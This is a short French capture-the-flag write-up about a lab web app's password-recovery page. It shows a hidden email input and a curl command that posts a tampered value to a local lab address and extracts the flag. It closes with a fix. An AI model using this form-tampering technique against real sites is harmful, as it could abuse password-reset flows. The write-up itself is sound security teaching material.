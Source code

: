 # Exploit 07 - Invalid POST values for recover mail page

Sur la [page de récupération de mot de passe](http://192.168.56.101/index.php?page=recover)
il y a un `input` caché:

```html
<input
        type="hidden"
        name="mail"
        value="webmaster@borntosec.com"
        maxlength="15"
/>
```

il suffit de modifier la `value` de cet `input` et d'envoyer le formulaire pour obtenir le flag.

On peut automatiser la récupération du flag avec la commande:

```bash
curl -s 'http://192.168.56.101/?page=recover#' --data 'mail=&Submit=Submit' | grep -oP 'The flag is : \K[0-9a-f]{64}'
```

L'intention derrière cet input est sûrement de paramétrer l'adresse de l'expéditeur du mail de reinitialisation du mot
de passe. Ce paramètre devrait être présent uniquement sur l'application backend, et idéalement stocké en base de donnée.
